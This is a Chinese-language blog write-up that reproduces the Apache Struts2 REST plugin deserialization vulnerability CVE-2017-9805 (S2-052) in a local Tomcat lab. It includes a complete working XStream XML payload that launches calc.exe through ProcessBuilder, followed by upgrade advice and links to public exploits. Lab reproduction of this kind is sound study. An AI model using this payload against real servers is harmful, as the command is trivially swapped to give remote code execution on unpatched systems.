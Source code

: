 ```yaml
---
title: 'struts2-052漏洞复现'
layout: post
tags: 
  - struts2
  - hack
category: 
  - hack
  - sec
comments: true
share: true
description: Apache Struts2的REST插件存在远程代码执行的高危漏洞，该漏洞由lgtm.com的安全研究员汇报，漏洞编号为CVE-2017-9805（S2-052）。Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。
---
```

Apache Struts2的REST插件存在远程代码执行的高危漏洞，该漏洞由lgtm.com的安全研究员汇报，漏洞编号为CVE-2017-9805（S2-052）。Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。

* TOC
{:toc}

<!--more-->

## 环境

### 准备环境

使用XAMPP套件中自带的tomcat进行struts环境部署

漏洞环境直接使用struts2.5.12包中的样例包搭建，直接下载 [struts-2.5.12-apps.zip 包]()（http://mirror.bit.edu.cn/apache/struts/2.5.12/struts-2.5.12-apps.zip），放于tomcat的webapps目录之下，打开tomcat，该war包自动部署

下载链接：http://mirror.bit.edu.cn/apache/struts/2.5.12/

### 启动tomcat

![XAMPP启动tomcat](/img/hack/vulnerability/struts2-052/xammp%E5%90%AF%E5%8A%A8tomcat.png)

![环境搭建完成](/img/hack/vulnerability/struts2-052/%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%AE%8C%E6%88%90.png)

## 漏洞POC复现


### 打开burpsuit，设置代理

打开burpsuite抓包工具，开启浏览器代理设置。

![设置代理](/img/hack/vulnerability/struts2-052/%E8%AE%BE%E7%BD%AE%E4%BB%A3%E7%90%86.png)

### 使用POC复现

点击页面的view，进入到一个表单数据提交页面，BP抓取到的post包，在其中构造POC，并forward：


![弹出计算器](/img/hack/vulnerability/struts2-052/%E5%BC%B9%E5%87%BA%E8%AE%A1%E7%AE%97%E5%99%A8.png)

POC:

```java
<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>calc.exe</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map>
```

## 修复建议

1. 建议尽快升级到 2.5.13或 Struts 2.3.34版本： 
https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.13 
https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34 
2. 在不使用时删除Struts REST插件，或仅限于服务器普通页面和JSONs： 
3. 限制服务器端扩展类型，删除XML支持。


## EXP

[struts2_052 GO语言EXP](https://github.com/luc10/struts-rce-cve-2017-9805):https://github.com/luc10/struts-rce-cve-2017-9805

[struts2_052 msf exp](https://github.com/rapid7/metasploit-framework/pull/8924/files):https://github.com/rapid7/metasploit-framework/pull/8924/files


